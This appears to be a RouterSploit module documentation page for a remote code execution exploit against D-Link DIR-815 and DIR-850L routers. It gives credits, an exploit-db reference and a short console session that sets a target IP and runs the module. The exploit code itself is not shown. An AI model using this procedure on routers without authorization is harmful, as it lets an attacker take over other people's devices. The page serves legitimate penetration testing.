 # D-Link DIR-815 & DIR-850L RCE

## Description
Module exploits D-Link DIR-815 and DIR-850L Remote Code Execution vulnerability which allows executing command on the device.

## Authors
* Samuel Huntley # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/38715/](https://www.exploit-db.com/exploits/38715/)

## Vulnerable devices
* D-Link DIR-815
* D-Link DIR-850L

## Usage
```
rsf > use exploits/dlink/dir_815_850l_rce
rsf (D-Link DIR-815 & DIR-850L RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address e.g. 192.168.1.1


rsf (D-Link DIR-815 & DIR-850L RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DIR-815 & DIR-850L RCE) > run
[*] Running module...
```
